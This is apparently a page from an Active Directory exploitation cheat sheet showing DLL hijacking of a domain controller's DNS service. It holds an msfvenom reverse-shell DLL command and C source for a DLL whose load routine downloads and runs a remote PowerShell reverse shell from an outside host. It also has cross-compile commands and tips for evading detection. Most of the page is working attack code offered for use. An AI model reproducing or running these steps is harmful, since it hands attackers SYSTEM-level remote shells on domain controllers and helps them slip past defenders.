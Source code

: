 ```powershell
sc \\DC01 stop dns
sc \\DC01 stop dns
```

<span style="color:red">If you drop a local MSF DLL, you will be spotted</span>
```bash
msfvenom -p windows/shell/reverse_tcp LHOST=YourIP LPORT=YourPort -f dll > dns.dll
```
<span style="color:green">If you point a MSF DLL to your SMB share, it seems that you will not be spotted (lab test)</span>

<b>To avoid any risk of detection about your DLL, it is better to make your own !!!</b>

Use your Kali and cross-compile your DLL to get a NT AUTHORITY\SYSTEM reverse shell.

```c
//dns.c
#include <windows.h>

BOOL WINAPI DllMain (HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
    if (dwReason == DLL_PROCESS_ATTACH) {
        system("powershell -c IEX(New-Object Net.Webclient).downloadString('http://10.10.10.10/revshell_FUD.ps1')");
        ExitProcess(0);
    }
    return TRUE;
}
```
- CROSS COMPILING
```bash
# Compiling a 64bit DLL
x86_64-w64-mingw32-gcc dns.c -shared -o dns.dll
# Compiling a 32bit DLL
i686-w64-mingw32-gcc dns.c -shared -o dns.dll
```

[<- BACK TO MAIN MENU ->](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/README.md)